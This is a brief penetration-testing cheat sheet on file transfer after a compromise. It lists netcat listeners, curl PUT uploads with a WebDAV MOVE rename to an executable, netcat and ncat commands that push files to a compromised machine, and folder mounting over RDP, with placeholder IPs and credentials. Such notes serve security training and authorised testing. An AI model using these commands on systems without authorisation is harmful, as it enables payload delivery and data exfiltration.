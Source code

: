 We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.

```shell-session
nc -lvnp 8000
```

```shell-session
echo <base64> | base64 -d -w 0 > hosts
```



## Curl

A file can be uploaded using the PUT method with the curl command:

```
curl -T '<file.txt>' 'http://<IP>'
```

And rename it to an executable file using the MOVE method with the curl command:

```
curl -X MOVE --header 'Destination:http://<IP>/<newName>''http://<IP>/<oldName>'
```



## Netcat

> Attack host - sending file to compromised machine

Example:

```
nc -q 0 <IP> <port> < <fileToTransfer.exe>
```

> Compromised machine connect to ncat to receive the file

Example:

```
ncat <IP> <port> --recv-only > <fileToTransfer.exe>
```



## Share Folder with RDP

> Mounting a Linux folder

Example with rdesktop:

```
rdesktop <IP> -d <domain> -u <user> -p '<password>' -r disk:linux='<pathFolder>'
```

> Example with xfreerdp:

```
xfreerdp /v:<IP> /d:<domain> /u:<user> /p:'<password>' /drive:<nameFolder>,<pathFolder>
```
